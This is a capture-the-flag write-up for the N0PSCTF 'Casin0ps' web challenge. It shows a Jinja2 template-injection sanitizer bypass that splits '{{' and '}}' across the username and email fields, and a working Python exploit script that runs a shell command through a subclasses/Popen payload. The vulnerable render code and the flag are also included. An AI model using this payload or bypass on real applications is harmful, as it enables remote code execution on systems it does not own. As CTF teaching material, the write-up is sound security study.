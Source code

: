# N0PSCTF - Casin0ps

## Approach

Notice that the `/export` endpoint reflects the username and email address in the `.csv` file.

![1.jpg](1.jpg)

The server is probably a Flask app because of the `Server: Werkzeug/3.0.4 Python/3.13.3` in the response headers, so the first thought is to try an SSTI attack.

After some testing I find if username or email address contains both `{` and `}`, the value will become `SANITIZED` in the `.csv` file. Then I find this payload works:

```python
username = '{{"7"*7+"""'
email = '"""}}@gmail.com'
```

![2.jpg](2.jpg)

The basic idea is to include the `{{` and `}}` into username and email address separately, and use the `"""` to make a multi-line comment in Python.

A payload for command injection can be:

```python
username = '{{payload if 1 else """'
email = '"""}}@gmail.com'
```

Which in the `.csv` template will be parsed as:

```python
USERNAME,{{payload if 1 else """
MAIL,"""}}@gmail.com
```

The final script to get the flag is:

```python
import requests
import random
import base64

url = "https://nopsctf-casino.chals.io"

username = '{{1.__class__.__mro__[1].__subclasses__()[528](["cat", ".passwd"], stdout=-1).communicate() if 1 else """'

email = '"""}}@gmail.com'


def exp(username, email):
    if len(username) > 250:
        print("[!] Username too long, len:", len(username))
        exit(1)

    resp = requests.post(url + "/register", data={
        "username": username,
        "email": email,
        "password": "1337"
    })
    print("[*]/register:", resp.status_code)
    if "A user with this username already exists" in resp.text:
        print("[!] Something went wrong...")
        exit(1)

    with requests.session() as s:
        resp = s.post(url + "/login", data={
            "username": username,
            "password": "1337"
        })
        print("[*]/login:", resp.status_code)

        resp = s.get(url + "/export")
        print("[*]/export:", resp.text)


exp(username, email)
```

## Explore further ...

You can dump the source code to see the sanitization logic, which is [app.py](./src/app.py).

Also, this is `template.csv`:

```csv
USERNAME,{{ username }}
MAIL,{{ email }}
INSCRIPTION DATE,{{ created_at }}
MONEY,{{ money }}
STATS,{{ stats }}
```

The server uses `render_template_string` to render the CSV template, thus it's vulnerable to SSTI.

```python
template = open("template.csv", "r").read()
csv = jinja2.Template(template).render(
    username=sanitize(current_user.username),
    email=sanitize(current_user.email),
    created_at=current_user.created_at.strftime("%Y-%m-%d %H:%M:%S"),
    money=current_user.money,
    stats=json.dumps(current_user.stats)
)
response = make_response(render_template_string(csv))
```

## Flag

```
N0PS{s5T1_4veRywh3R3!!}
```
